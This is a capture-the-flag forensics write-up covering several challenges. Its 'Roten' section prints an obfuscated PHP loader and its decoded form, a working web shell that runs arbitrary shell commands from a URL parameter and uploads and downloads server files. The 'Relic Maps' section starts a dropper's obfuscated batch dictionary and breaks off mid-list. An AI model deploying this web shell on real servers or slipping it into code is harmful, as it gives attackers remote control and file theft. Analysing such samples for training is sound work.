






## Plaintext Tleasure

* **Given file:** [Get it here!](https://drive.google.com/file/d/1O77S-Ti8GErZxdZoYiTKEWsCBWn6Fp9b/view?usp=sharing)

* **Description:** Threat intelligence has found that the aliens operate through a command and control server hosted on their infrastructure. Pandora managed to penetrate their defenses and have access to their internal network. Because their server uses HTTP, Pandora captured the network traffic to steal the server's administrator credentials. Open the provided file using Wireshark, and locate the username and password of the admin.

* **Category:** Forensics

* **Difficulty:** Very Easy

We are given a network pcap file. Although we can solve this challenge using [Wireshark](https://www.wireshark.org/), but to keep it simple for the very first challenge, we will use [strings](https://www.howtogeek.com/427805/how-to-use-the-strings-command-on-linux/) and [grep](https://www.geeksforgeeks.org/grep-command-in-unixlinux/) to get the flag.

Here we use strings to dump out strings from the pcap file, then use pipe (`|`) and grep to find for strings that match the flag format - `HTB{`.


Flag is: **HTB{th3s3_4l13ns_st1ll_us3_HTTP}**

## Alien Cradle

* **Given file:** [Get it here!](https://drive.google.com/file/d/12HfCz9D5QnpK7kQBwjCINwv29T5sr6Nc/view?usp=sharing)

* **Description:** In an attempt for the aliens to find more information about the relic, they launched an attack targeting Pandora's close friends and partners that may know any secret information about it. During a recent incident believed to be operated by them, Pandora located a weird PowerShell script from the event logs, otherwise called PowerShell cradle. These scripts are usually used to download and execute the next stage of the attack. However, it seems obfuscated, and Pandora cannot understand it. Can you help her deobfuscate it?

* **Category:** Forensics

* **Difficulty:** Very Easy

For this challenge, we are given a Powershell Script file. In the script, the flag is being concatenated using some Powershell ~~magic~~ lines of code.

Flag is: **HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}**

## Extraterrestrial Persistence

* **Given file:** [Get it here!](https://drive.google.com/file/d/1-ySd0Z3kKvX3djL228eU0_vddZf4Pdn9/view?usp=sharing)

* **Description:** There is a rumor that aliens have developed a persistence mechanism that is impossible to detect. After investigating her recently compromised Linux server, Pandora found a possible sample of this mechanism. Can you analyze it and find out how they install their persistence?

* **Category:** Forensics

* **Difficulty:** Very Easy

In this challenge, we are given a shell script to look for the flag. 

For the sake of understanding the flow of shell scripting, the script checks whether the username is `Pandora` and the hostname is `linux_HQ`. If the check is fulfilled, it starts the process to write the base64 decoded message into the file `/usr/lib/systemd/system/service.service`. 

The decoded message turned out to contain the flag for our challenge.

Flag is: **HTB{th3s3_4l13nS_4r3_s00000_b4s1c}**

## Roten

* **Given zip:** [Get it here!](https://drive.google.com/drive/folders/1RfJHiudqPA7iTqNqsmIYHRZDYZzu7uEs?usp=share_link)

* **Description:** The iMoS is responsible for collecting and analyzing targeting data across various galaxies. The data is collected through their webserver, which is accessible to authorized personnel only. However, the iMoS suspects that their webserver has been compromised, and they are unable to locate the source of the breach. They suspect that some kind of shell has been uploaded, but they are unable to find it. The iMoS have provided you with some network data to analyze, its up to you to save us.

* **Category:** Forensics

* **Difficulty:** Easy

After filtering the packets by `http.request.method == POST`, we saw an interesting packet there.


The packet 1929 has a MIME type of `application/x-php`, following the HTTP stream to see the php backdoor, we found this interesting php codes:

```php
<?php 
$pPziZoJiMpcu = 82; 
$liGBOKxsOGMz = array(); 
$iyzQ5h8qf6 = "" ; 
$iyzQ5h8qf6 .= "<nnyo ea\$px-aloerl0=e r\$0' weme Su rgsr s\"eu>\"e'Er= elmi)y ]_'t>bde e e  =p   xt\" ?ltps vdfic-xetrmsx'l0em0  o\"oc&'t [r\"e _e;eV.ncxm'vToil   ,F y"; 
$iyzQ5h8qf6 .= "<r s -<a  \"op r_P< poeeihaeild /ds\"se4bsxao1: r]du ;e\$'o,t dn\n)i\$'me'maoate{e  I!lb>'u btde .sr ege/ han:t"; 
$iyzQ5h8qf6 .= "elrlenjl t>( 0'eCdd0  l et0\n'seu u it ;e_ dc>ulUd'T\nxe\$L<er<.l oh>c  ii aert pdt iai(ed.QiJr\n\$i0; 0\"e0' d= ex ].xp\$r re \nwSn'u<lup ]o iluE/=>b\$t r>\n"; 
$iyzQ5h8qf6 .= "h rxn ltmb \n'-aodd') bubaa\nff0 i0] )- [ &\"4 ==e[wn (r #iEa tftelF)U sspSb\"'rd  dO o e_t ppso \n]DpneaC;aoesvp\ni( }f0 & ' \"( ]0 =sc'o  \$s #nRmaeoi=oi)p te"; 
$iyzQ5h8qf6 .= "l[>c;>ia ew   agP aw(d i;ep:rto\nnor/a/<l )\n( = ?;\$r\$0 0 'puwr\$\$d\" fgVeu'rp'al l s o'<o\n<rs rn \" leeetu\$y f\nsl (en dtyjS3?e\$   ) 0 \ngem0=  xrtrlsdi; l E=t>ma\"d"; 
$iyzQ5h8qf6 .= "e{o  iafbl\nb. }ee < ptrchid>   cia''t  s qc.p)m{ \$ (0' rao0 ) 'ieid;ir\n adR'o\\ r.''\na ifdiro >'\$\ndr<t apmh(di\" ( rctE)"; 
$iyzQ5h8qf6 .= "e mtlur3h;o  m{\$2x odd0(  )n't[\nr)  gi[dcnat\$   d n Dl>r R k}\"<tr twso\$(r; i iatx;n iriei.p\nd\$ o m0' u\"e1\$\$ "; 
$iyzQ5h8qf6 .= " t]e'} ) } r'io\"c/_in '  (ie': e&e\n>/b> hu( df)\n s ptap\nt nabrp6\n et d\$o0  p] )ogi?f)'r\n=  \n=ePrm;tfGda"; 
$iyzQ5h8qf6 .= " ]e\"mrT;r s&ye\nto\" (i\$\"ii e s tici - ipryt/\n  y etd): [ & wrf (;]e\n {   cH'p\nioE=m [c.oeo\ne u  c hd; \$dd<rl.c e iohr L fca/ jf &p  ye   "; 
$iyzQ5h8qf6 .= "\"= ?no('\"\n,a\n\$\n  HtP leorT'e 'h\$vcU d l'=h >y\n d(it.e h t onme e idr1-su  e &p ?' e 0 eu t%  d\$_   To_vecnm[f= nouetp \" t."; 
$iyzQ5h8qf6 .= ">o \n> eifrd'o\"o ( n/es n eny.-/n 0=e e& - x(0'rp\$'1 \$'dP   BrSath=-'i' a p_ol >  \$    \n cri)>/w<  \$i:on: g "; 
$iyzQ5h8qf6 .= "d. 1>bc x'l0= ''\$e\$0x[[m s g]iO   {yEleo'ddls m\"luro E}o_\$\"< < h.l <'n/\" _f ct  t  c-2\not 2dsx'0w;gcm0''\"o:% r,rS   W Lu= \"aieu\$e<opya r\nfG"; 
$iyzQ5h8qf6 .= "v<t ? o'e.a.et< G Ft;0 h Co-.<oi 0'eAs0'\nruo2 eed 1 o  T   0\"Fe'\".trTbu'bal)d r\n Eabh p  /o  \$rd/ E(ie ' :eSm>2stoi0; 0'4  otd):xxe's u\$=[ "; 
$iyzQ5h8qf6 .= "  w '=o<\$a'omp]rdo)' o}cTlre h \"'w\"hv(>t Tfltf)  xS/\n/csnf0 i0;0: uee  ee T% pw '  \$_.]\"f/_']Uil)>Da ] r\no[u>a p <.n<ra\$\\a [ie-i; 'i b<jrt ( }f0 0  "; 
$iyzQ5h8qf6 .= "p\" ?'cc&'1 [o\$d  dR ..ffS>.pto;<id{[} \nm'e\"d \n t\$e/eldnb 'l sl\n  t-osqirp )\n( })' []& -uu ;s\$'r_ii iO\$\"\$'oE"; 
$iyzQ5h8qf6 .= "\\\"l'a\nbre\n' uimc);> fidvrtfui\"l deTte  .;-ocupar\$   )\n - \"  ''tt0\n\"selGrf rtd'd rRn'o>d red nepfam \n\n<o"; 
$iyzQ5h8qf6 .= "f>a(d=er;e o_rrn h \n>tretpim{ \$  ?' w=0w;eex ,.xdE'   _i iamV\"/a\"D >c_ all nd{? tr <l\$>').\n> weaea ef \nsir .no  "; 
$iyzQ5h8qf6 .= "m{  ; r 0'\n'\"2  =e[T](\$=Armru>E;>d;i <tf mso(d'\n> he(aud\\\" ' \" nxnam ai <tpysmtd\$ o  '\n i(0  ]]0 \$sc'[;if _ e.t\"R\n '\nr boi eeai ] \n >ai ein../ ; lisme "; 
$iyzQ5h8qf6 .= "dl lrt.riPet d\$ r \$t\$0: = 0 opuw'\nsi'D.t\"o;[e\">ee  rl ' dse, \n Pcsh)r\"  ' \n osf'= ee ia mcne y et ' gem4  ==  wrtrd}_l.a h f\n'c;\\cc sye ]{isx  <"; 
$iyzQ5h8qf6 .= " eh_r .;\$\". \n ate)\" rs npsi=.r&p  y   r\"o)' ' ) nieii\nfe/Y\"o/oePh\nnht t.( .\nnee\$ t r de.'\n_'\$ \n dsr;' (i k/rn\"jm e &p : o]d - x(  en'tr\$i '}<d>ccHoe<o"; 
$iyzQ5h8qf6 .= "o y\"\$ ' gtcc a<m(if / S>v ? '('\n. 'z  3c.hss0=e e   u e?' '\$\$ rt]e'fl=;\n/=\"uhP cb ril._    (um bti\$r=\"' E\"a > ]\$) b Pe r.=jt\"(x'l0=e' p=  ; )gw\$[f)']ie \n\$h"; 
$iyzQ5h8qf6 .= "';so_\"hr\"yfe<F u f\$td lrsd('/. R.l \n )f; a r(}e3\"st>\$1csx'l- [ &'\n  ros'(;];l(\$}d2G\n> S<o><  =/I p i_ir e>sir\"'\$ V u}\n )i\n s a\$\nl.h\"p<f0'e8l"; 
$iyzQ5h8qf6 .= "s' \"( r i?or=r\"\n,\ne\$d\ni>Ee\\\"Ei </=('bL l lGoe  \nire.>v E\$e\n\n  l  ehgf}=6t>:/i0; 0'e;\$r\$0' f ulse%  i di\$r\"Tcn\\Ln\"id fc>E o eEns c osa \"a Rv) \n {e"; 
$iyzQ5h8qf6 .= "  nemi\n\"/t</sl0 i0; \noem0  ('pdpa1 \$f=irds;'h<nFp<ni\$io<S a  T:u l n l\$.l [a) < \n)  aaal\nscp//ce }f0 \$ wao0:  s[[rds w  r;i \n>o"; 
$iyzQ5h8qf6 .= "i<'uipvdll/[ d '[ l a sap_ u 'l[ /  )  md:e?tsssmr))\n( }t ndd1  \$''\"i'% o(')\nr=e\" nb]tnu>ieob' e .'<t s <saS\$e}Pu"; 
$iyzQ5h8qf6 .= "n d     ee )>ys:cai    )\ny e\"e0' m een]1 ri')   c;\"pr. pt\"r_rrfed \$c/) s / tEv)\nHea i  {  (rp)\nl//rxp{{ \$  p r] )- o:xxt,s ls;  =sh\n<u>\"tu"; 
$iyzQ5h8qf6 .= " ;.e:>ic  umb; = t\$hRa) P m v  \n  \$(u;\neb/ict\n  m{ e [ & ' d eef % ds\n{  coeit\\'ytt\n'xr<lhs pd>\n \" hk(Vl[ _.e >     f'b\n<soapd> \$ o  = \"="; 
$iyzQ5h8qf6 .= " ?;\$e'cc(\$1 [ei\n ra cn n p y\n/ie/eou l'< et >e\$Eun S ] \n     iCl hhojtn\n t d\$ ' e 0 \nw Suu\"os\$'tf  en\"hpt<metpi'sdbT c o]b ca"; 
$iyzQ5h8qf6 .= "<\nydRea E\" e<    hlai teta>.\n y et u x(0' o&'tt%w\"se(   ad\\ouyde=yef.t'ro'c a)r hbt  i[ m L<.c/    eecc mesx\nb< p  y '\$e\$0x r ;ee1n,.x\$(  lin tpit'p"; 
$iyzQ5h8qf6 .= "= bs>>U<e d)> olh =r'.e F/\"hh \$  a)h' ltt.\nod e &p ;ocm2' l0\n'\"se =e_\$  pr<\" evhhe'(a(E\"pbseD \"  e> >.P ] 'a<ot f hd.e) >\"r"; 
$iyzQ5h8qf6 .= "g<oi =e e \nwuo0  dx ]]\"r\$scPd  a(b<t= oi=sis\$r;lrsci{; \" N  'H\"  ]>/ m i ee'-; \n ao!tv 'l0=e ntd): [8 = ,[gpuOi  t\$riy'cdd'useur\no>fhr\n\n \$ta \$/P<.e <t\""; 
$iyzQ5h8qf6 .= "l l ar\"C\n <hpo-s  psx'l eee   \"0 == 'rrtSr  hd>npsl=dfbsnpo a<uoe   vam v'_/ l./d<> e d('o  !r.g-tc\$'e6-s r\" ?' e0 ' \$woieT   (i<peua'eime"; 
$iyzQ5h8qf6 .= "alr dbl c  fabe<a.Sa\"s t>/    e')n  -eml rlm; 0'e []& - x  x(trun'[=  \$rfu=bsPnlitmo. 'rl't  oll</l\$E><e\"d<t  = rC;t  -fieLaao i0;  \"  ''\$e) "; 
$iyzQ5h8qf6 .= "'\$yipt]'=  d)ot'msO'et(ea  ]>y<o  rue/tuvL</ ?>tr    (o\nr   =naapsd}f0 i w=0w;wc  )wpt[f)d   i;r ti=S ''\$(dF [< br  ee-treaF/t{d<d>  \$h"; 
$iyzQ5h8qf6 .= "'n o  L\".ptcse\n( }f r 0'\nou\$  oee'(;iN  r\nmtet'Tn  _\$Di 'biry  a hh>)l'td\not>\"  _eCt l rahcied=   )\n( i(0  rtoi?r)'r\"\nrU e.e yx'n'anvP_il t>n>.  c"; 
$iyzQ5h8qf6 .= "\\o>\n u]d> wd ;  Gaoe : ettsssn\"= \$   \$t\$4: lewf l;]e% 'L c'capt a maaOFre mF <'  hnv\n {e >< n>\"\n  Ednn   aets.t.c  m{ \$oem0  d\"n('d\n,a1 ]L h/hce'vveemlS"; 
$iyzQ5h8qf6 .= "Ie }pi'b<ee <e  \n).<t l\" }  Tett m dsp\"c cof o  mw\"o)' []e s[  ds )  o'ot= abn=euTLca\n_l.r/cx(br   ) td o..\n  [re- u ft:>oconi d\$ on]d - "; 
$iyzQ5h8qf6 .= "\" r\$'' \$'% )oe . i'nlac'=e[Etl ne\$>bhe\$r    )\"d> a  e  '(nD s i /\nmomtl et de e?' w=[m e o]1  rc\$\$\"ohaurtd'='Sor a d<>occ>t <  ?>  dppc  d"; 
$iyzQ5h8qf6 .= "'ti t lc/\n/m/ae  y er=  ; r \"o:x w,s { hfv<nime-yif's[re m'ib< (m\"a / {d\"\" =orh  oC-s -heom<apbip &p  [ &'\n i(ed e n % \n!oiah=de=fpriUu'ya e.r b\"'d;b t"; 
$iyzQ5h8qf6 .= " \ni.  \"sio  woTp re(ma!jionee e &\"( r \$t\$xe'c e\$1  i ll2'd='oe'lpbf)d '\$.sr<cr\nl h  r . .in   "; 
for($i = 0; $i < $pPziZoJiMpcu; $i++) $liGBOKxsOGMz[] = ""; 
for($i = 0; $i < (strlen($iyzQ5h8qf6) / $pPziZoJiMpcu); $i++) { for($r = 0; $r < $pPziZoJiMpcu; $r++) $liGBOKxsOGMz[$r] .= $iyzQ5h8qf6[$r + $i * $pPziZoJiMpcu]; } 
$bhrTeZXazQ = trim(implode("", $liGBOKxsOGMz)); 
$bhrTeZXazQ = "?>$bhrTeZXazQ"; 
eval( $bhrTeZXazQ ); 
?>
```
That doesn't look nice, let's replace `eval` by `echo` and execute this to see decoded codes:

```php
?><?php

if (isset($_GET['download'])) {
        $file = $_GET['download'];
        if (file_exists($file)) {
            header('Content-Description: File Transfer');
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.basename($file).'"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($file));
            readfile($file);
            exit;
        }
}

?>

<html>
<!-- Latest compiled and minified CSS -->
<link rel="stylesheet" href="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/css/bootstrap.min.css">

<!-- jQuery library -->
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.2/jquery.min.js"></script>

<!-- Latest compiled JavaScript -->
<script src="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js"></script>

<div class="container">

<?php

function printPerms($file) {
        $mode = fileperms($file);
        if( $mode & 0x1000 ) { $type='p'; }
        else if( $mode & 0x2000 ) { $type='c'; }
        else if( $mode & 0x4000 ) { $type='d'; }
        else if( $mode & 0x6000 ) { $type='b'; }
        else if( $mode & 0x8000 ) { $type='-'; }
        else if( $mode & 0xA000 ) { $type='l'; }
        else if( $mode & 0xC000 ) { $type='s'; }
        else $type='u';
        $owner["read"] = ($mode & 00400) ? 'r' : '-';
        $owner["write"] = ($mode & 00200) ? 'w' : '-';
        $owner["execute"] = ($mode & 00100) ? 'x' : '-';
        $group["read"] = ($mode & 00040) ? 'r' : '-';
        $group["write"] = ($mode & 00020) ? 'w' : '-';
        $group["execute"] = ($mode & 00010) ? 'x' : '-';
        $world["read"] = ($mode & 00004) ? 'r' : '-';
        $world["write"] = ($mode & 00002) ? 'w' : '-';
        $world["execute"] = ($mode & 00001) ? 'x' : '-';
        if( $mode & 0x800 ) $owner["execute"] = ($owner['execute']=='x') ? 's' : 'S';
        if( $mode & 0x400 ) $group["execute"] = ($group['execute']=='x') ? 's' : 'S';
        if( $mode & 0x200 ) $world["execute"] = ($world['execute']=='x') ? 't' : 'T';
        $s=sprintf("%1s", $type);
        $s.=sprintf("%1s%1s%1s", $owner['read'], $owner['write'], $owner['execute']);
        $s.=sprintf("%1s%1s%1s", $group['read'], $group['write'], $group['execute']);
        $s.=sprintf("%1s%1s%1s", $world['read'], $world['write'], $world['execute']);
        return $s;
}


$dir = $_GET['dir'];
if (isset($_POST['dir'])) {
        $dir = $_POST['dir'];
}
$file = '';
if ($dir == NULL or !is_dir($dir)) {
        if (is_file($dir)) {
                echo "enters";
                $file = $dir;
                echo $file;
        }
        $dir = './';
}
$dir = realpath($dir.'/'.$value);
##flag = HTB{W0w_ROt_A_DaY}
$dirs = scandir($dir);
echo "<h2>Viewing directory " . $dir . "</h2>";
echo "\n<br><form action='".$_SERVER['PHP_SELF']."' method='GET'>";
echo "<input type='hidden' name='dir' value=".$dir." />";
echo "<input type='text' name='cmd' autocomplete='off' autofocus>\n<input type='submit' value='Execute'>\n";
echo "</form>";
echo "\n<br>\n<div class='navbar-form'><form action='".$_SERVER['PHP_SELF']."' method='POST' enctype='multipart/form-data'>\n";
echo "<input type='hidden' name='dir' value='".$_GET['dir']."'/> ";
echo "<input type='file' name='fileToUpload' id='fileToUpload'>\n<br><input type='submit' value='Upload File' name='submit'>";
echo "</div>";

if (isset($_POST['submit'])) {
        $uploadDirectory = $dir.'/'.basename($_FILES['fileToUpload']['name']);
        if (file_exists($uploadDirectory)) {
        echo "<br><br><b style='color:red'>Error. File already exists in ".$uploadDirectory.".</b></br></br>";
        }
        else if (move_uploaded_file($_FILES['fileToUpload']['tmp_name'], $uploadDirectory)) {
                echo '<br><br><b>File '.$_FILES['fileToUpload']['name'].' uploaded successfully in '.$dir.' !</b><br>';
        } else {
                echo '<br><br><b style="color:red">Error uploading file '.$uploadDirectory.'</b><br><br>';

        }

}

if (isset($_GET['cmd'])) {
        echo "<br><br><b>Result of command execution: </b><br>";
        exec('cd '.$dir.' && '.$_GET['cmd'], $cmdresult);
        foreach ($cmdresult as $key => $value) {
                echo "$value \n<br>";
        }
}
echo "<br>";
?>

<table class="table table-hover table-bordered">
    <thead>
      <tr>
        <th>Name</th>
        <th>Owner</th>
        <th>Permissions</th>
      </tr>
    </thead>
    <tbody>
<?php
foreach ($dirs as $key => $value) {
        echo "<tr>";
        if (is_dir(realpath($dir.'/'.$value))) {
                echo "<td><a href='". $_SERVER['PHP_SELF'] . "?dir=". realpath($dir.'/'.$value) . "/'>". $value . "</a></td><td>". posix_getpwuid(fileowner($dir.'/'.$value))[name] . "</td><td> " . printPerms($dir) . "</td>\n";
        }
        else {
                echo "<td><a href='". $_SERVER['PHP_SELF'] . "?download=". realpath($dir.'/'.$value) . "'>". $value . "</a></td><td>". posix_getpwuid(fileowner($dir.'/'.$value))[name] ."</td><td> " . printPerms($dir) . "</td>\n";
        }
        echo "</tr>";
}
echo "</tbody>";
echo "</table>";

?>

</div>
</html>
```
Looking at the comment, we can see the flag there.

Flag is: **HTB{W0w_ROt_A_DaY}**

## Relic Maps

* **Given file:** [Get it here!](https://drive.google.com/file/d/1oyfMzfnOM69pQdIVi9j63dkLZ2xvVkgq/view?usp=sharing)

* **Description:** Pandora received an email with a link claiming to have information about the location of the relic and attached ancient city maps, but something seems off about it. Could it be rivals trying to send her off on a distraction? Or worse, could they be trying to hack her systems to get what she knows?Investigate the given attachment and figure out what's going on and get the flag. The link is to http://relicmaps.htb:/relicmaps.one. The document is still live (relicmaps.htb should resolve to your docker instance).

* **Note:** This challenge had a docker but it might be closed at the time you are reading this. All needed files will be given in the write-ups.

* **Category:** Forensics

* **Difficulty:** Medium

From the link attached to this challenge, we get an Onenote file named `relicmaps.one`. Analyze the file, we get 2 suspicious links, which lead us to 2 different files, [http://relicmaps.htb/uploads/soft/topsecret-maps.one](https://drive.google.com/file/d/14FBabJvLlTAjhCKbJBPMk6iI9u83HI0j/view?usp=share_link) and [http://relicmaps.htb/get/DdAbds/window.bat](https://drive.google.com/file/d/1t9jembhbhIFY6PE7Lx3J7yA5prTsVGXv/view?usp=share_link).

I did some analysis on the file `topsecret-maps.one`, and there are only some PNGs inside it. In the `window.bat` file, we are given a Powershell Script. You can run it directly, but I choose to deobfuscate using Python to understand its flow.

```python
dict = """
%eFlP%"ualBOGvshk=ws"
%eFlP%"PxzdwcSExs= /"
%eFlP%"ndjtYQuanY=po"
%eFlP%"cHFmSnCqnE=Wi"
%eFlP%"CJnGNBkyYp=co"
%eFlP%"jaXcJXQMrV=rS"
%eFlP%"nwIWiBzpbz=:\"
%eFlP%"xprVJLooVF=Po"
%eFlP%"tzMKflzfvX=0\"
%eFlP%"VCWZpprcdE=1."
%eFlP%"XzrrbwrpmM=\v"
%eFlP%"BFTOQBPCju=st"
%eFlP%"WmUoySsDby=he"
%eFlP%"tHJYExMHlP=rs"
%eFlP%"JPfTcZlwxJ=do"
%eFlP%"VxroDYJQKR=y "
%eFlP%"UBndSzFkbH=py"
%eFlP%"KXASGLJNCX=ll"
%eFlP%"vlwWETKcZH=em"
%eFlP%"OOOxFGwzUd=e""
%eFlP%"NCtxqhhPqI=32"
%eFlP%"GOPdPuwuLd=\W"
%eFlP%"XUpMhOyyHB=ex"
%eFlP%"cIqyYRJWbQ=we"
%eFlP%"kTEDvsZUvn=nd"
%eFlP%"XBucLtReBQ=Sy"
%eFlP%"JBRccySrUq=ow"
%eFlP%"eNOycQnIZD=xe"
%eFlP%"chXxviaBCr=we"
%eFlP%"YcnfCLfyyS=in"
%eFlP%"lYCdEGtlPA=.e"
%eFlP%"pMrovuxjjq=he"
%eFlP%"UrPeBlCopW=ll"
%eFlP%"ujJtlzSIGW= C"
%eFlP%"zhNAugCrcK="%~0."
%eFlP%"ZqjBENExAX=s\"
%VhIy%"dzPrbmmccE=cd"
%VhIy%"xQseEVnPet= "%~dp0""
%eUFw%"wxzMwkmbmY=gDBN"
%eUFw%"VavtsuhNIN=F'[-"
%eUFw%"AHKCuBAkui=r = "
%eUFw%"ARecVABHyu=uZOc"
%eUFw%"AbZpTpKurz=6] -"
%eUFw%"BaMYsIgnsM=$uZO"
%eUFw%"JBUgbyTPxp=m(, "
%eUFw%"vGOYQQYIpx=.-16"
%eUFw%"yPzFwnsYdA= New"
%eUFw%"zuIYfGJIhV=O.Me"
%eUFw%"gbXeIdPSoj='[-1"
%eUFw%"BqEMjgsfHM=]::("
%eUFw%"bivuMABwCB=Invo"
%eUFw%"SJsEzuInUY=ile "
%eUFw%"htJeDhbeDW=();$"
%eUFw%"ZygfZJxAOd=acUA"
%eUFw%"eDhTebXJLa="%~nx0."
%eUFw%"YlKbYsFYPy=in $"
%eUFw%"jdKMRqipbM=e]::"
%eUFw%"GVIREkvxRa=();$"
%eUFw%"OckpqzbYcn=n ''"
%eUFw%"UPfjubfNXt=Mr, "
%eUFw%"AkaPyEXHFq=esMa"
%eUFw%"LODxmGMGqq=flec"
%eUFw%"hImzprlFyw=pose"
%eUFw%"VZAbZqJHBk=1] -"
%eUFw%"WYJXnBQBDj= [Sy"
%eUFw%"rSVBNvbdPT=stem"
%eUFw%"tVtxVGNpFB=vert"
%eUFw%"tHHIjVCHeH=::De"
%eUFw%"WvjMoIIiUn=);$b"
%eUFw%"vmIEtsktnA=ypto"
%eUFw%"AbMyvUGzSH=fore"
%eUFw%"zDUDeXKPaV=..-1"
%eUFw%"INPLAzQfUo== [S"
%eUFw%"ArAxZuPIrp== $B"
%eUFw%"nGqMpclaJV=ZOcm"
%eUFw%"lfYSggLrsL=null"
%eUFw%"eQPFkQsLmh=hy.A"
%eUFw%"AyyrPvjwjr=;$mN"
%eUFw%"rjhOhltPzI=Disp"
%eUFw%"WojQSFImBz=17js"
%eUFw%"SKEwAQBRlN=$Nlg"
